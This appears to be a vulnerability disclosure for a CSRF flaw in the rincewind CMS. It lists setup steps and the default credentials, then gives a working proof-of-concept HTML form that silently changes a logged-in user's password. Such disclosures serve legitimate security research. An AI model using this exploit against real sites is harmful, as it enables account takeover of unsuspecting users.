



app: https://github.com/sharpless/rincewind


An issue was discovered in rincewind cms before 2011-2-20 . There is a CSRF vulnerability that can change a user account's password via index.php?p=account page to access a attack page


0x001 first Setting up Test Environment 

* php
* mysql
* apache2
* ubuntu
  

To install:

1) Download the zip-file, or clone the repository
2) Copy config-template.php to config.php
3) Edit config.php to match your database settings
4) Optional: add or remove links in the $meny-array
5) Change WS_TITLE to whatever you like
6) Create the database you want to use, if it doesn't exist
7) Go to the ?p=install page on the site.


0x002 csrf 

choose `Ja` and Click `Installera` the database will be reset by default sql data of folder `sql/*.php`

`mikael` and `hemligt` 


login the app use `mikael` and `hemligt` 



create a `attack.html` file

```
<html>
<form action="http://10.88.16.205/?p=accounteditp" method="POST">
    <input type="hidden" name="password" value="123456">
    <input type="hidden" name="password2" value="123456">
    <input type="submit" name="passwordsubmit" value="Uppdatera lösenord">
</form>
</html>
```

access the file and click `Uppdatera lösenord` then the password will be changed 



